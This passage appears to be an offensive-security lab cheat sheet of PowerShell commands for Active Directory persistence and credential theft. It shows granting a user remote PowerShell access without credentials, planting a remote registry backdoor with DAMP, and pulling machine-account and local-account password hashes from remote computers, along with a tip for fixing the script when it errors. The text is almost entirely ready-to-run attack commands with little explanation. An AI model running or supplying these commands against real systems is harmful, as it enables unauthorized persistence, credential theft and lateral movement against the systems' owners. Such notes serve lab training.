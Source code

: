 ```powershell
Set-RemotePSRemoting -UserName userX -Verbose
```

### <span style="color:#F1C232">2. Now we can execute **ScriptBlock** commands through **Invoke-Command**</span>

```powershell
Invoke-Command -ScriptBlock {whoami} -ComputerName <computer>
```

### <span style="color:#F1C232">3. On remote machine for userX without credentials</span>

```powershell
Set-RemotePSRemoting -UserName userX -ComputerName <computer> -Verbose
```

### <span style="color:#F1C232">4. On remote machine, remove the permissions</span>

```powershell
Set-RemotePSRemoting -UserName userX -ComputerName <computer> -Remove
```

## <span style="color:lightgreen">Add-RemoteRegBackdoor</span>

### <span style="color:#F1C232">1. Using DAMP, with admin privs on remote machine</span>

```powershell
Add-RemoteRegBackdoor -ComputerName <computer> -Trustee user1 -Verbose
```

## <span style="color:lightgreen">RemoteHashRetrieval</span>

### <span style="color:#F1C232">2. As student1, retrieve machine account hash</span>

```powershell
Get-RemoteMachineAccountHash -ComputerName <computer> -Verbose
```

> **If errors, replace $IV by $InitV in the script**
{: .prompt-warning }
### <span style="color:#F1C232">3 .Retrieve local account hash</span>

```powershell
Get-RemoteLocalAccountHash -ComputerName <computer> -Verbose
```
